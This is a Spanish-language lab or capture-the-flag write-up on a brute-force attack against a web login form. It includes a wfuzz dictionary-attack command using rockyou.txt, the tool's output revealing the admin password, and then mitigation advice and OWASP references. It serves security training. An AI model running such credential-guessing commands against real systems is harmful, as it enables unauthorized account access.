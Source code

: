 # Brute Force Attack
### A07:2021 – Identification and Authentication Failures 

Un **ataque de fuerza bruta** es un ataque que implica el craqueo de credenciales o contraseñas por uso de prueba y error.

Estos ataques pueden ser completamente manuales o automatizados mediante el uso de diccionarios de credenciales o usuarios (**dictionary attack**).

## Ataque

- **Localización**: http://<IP>/index.php?page=singin

Tenemos un formulario para ingresar unas credenciales y loguearse en la página. Hacemos las pruebas necesarias para ver si hay algún error de sanitización de input de usuario, como una [inyección SQL](./sql_injection_users.md). 

Tras ver que el iput está sanitizado, probamos con un ataque de fuerza bruta mediante un diccionario, el cual podemos automatizar con **wfuzz** ya que las credenciales se pasan por query:

```bash
wfuzz --hh 1988 -w rockyou.txt "http://<IP>/index.php?page=signin&username=admin&password=FUZZ&Login=Login#"
```
Y el resultado es:

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.11.200.124/index.php?page=signin&username=admin&password=FUZZ&Login=Login
Total requests: 14344391

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                         
=====================================================================

000000073:   200        54 L     139 W      2086 Ch     "shadow" 
```

Probamos la combinación de credenciales **admin** y **shadow**, y finalmente
obtenemos la flag.

## Mitigación

- Uso de herramientas de limitación de peticiones por segundo para mitigar ataques de fuerza bruta.
- **Securización de credenciales** 
- Monitorización de credenciales en filtraciones de datos
- Implementación de protocolos de complejidad de contraseñas
- Implementar mecanismos de lockout.

## Referencias
- [A07:2021 – Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [A09:2021 – Security Logging and Monitoring Failures](https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/)
- [OWASP: Testing for Weak Lock Out Mechanism](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/03-Testing_for_Weak_Lock_Out_Mechanism)
